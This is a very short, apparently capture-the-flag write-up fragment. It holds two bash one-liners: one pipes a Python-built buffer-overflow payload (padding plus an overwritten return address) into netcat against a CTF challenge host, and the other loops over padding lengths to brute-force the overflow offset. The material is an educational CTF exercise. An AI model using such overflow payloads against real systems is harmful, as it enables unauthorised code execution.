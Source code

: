 #exploit

```bash
python2 -c "print 'a'*40+'\x08\x07\x40\x00\x00\x00\x00\x00'" | nc pwn.zh3r0.ml 3456
```


#bf the overflow

```bash
for i in {30..45}; do echo $i; python2 -c "print 'a'*$i+'\x08\x07\x40\x00\x00\x00\x00\x00'" | nc pwn.zh3r0.ml 3456 ; done
```
